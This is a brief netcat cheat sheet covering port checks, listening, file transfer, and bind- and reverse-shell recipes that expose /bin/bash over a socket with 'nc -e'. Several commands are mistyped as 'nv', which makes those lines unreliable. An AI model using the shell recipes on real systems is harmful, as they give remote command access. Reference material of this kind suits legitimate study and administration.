 ```yaml
---
title: "netcat"
linkTitle: "netcat"
date: 2017-01-05
---
```


### Check open port

```bash
nc -vz 1.1.1.1 53
nc -vnz 1.1.1.1 53
```

### Listen

```bash
nv -lnvp 1234
```

on localhost:

```bash
nc -nv -l 127.0.0.1 -p 1234
```

### Transfer

Alice -> Bob

Bob:

```bash
nv -lnvp 1234 > file
```

Alice:

```bash
nv -nv 192.168.1.1 1234 < file
```

### Bind shell

Alice -> Bob

Bob:

```bash
nc -nv -l 127.0.0.1 1234 -e /bin/bash
```

Alice:

```bash
nc -nv 127.0.0.1 1234
```

### Reverse shell

Alice -> Bob -> Alice

Bob:

```bash
nc -nv -l 127.0.0.1 1234
```

Alice:

```bash
nc -nv 127.0.0.1 1234 -e /bin/bash
```
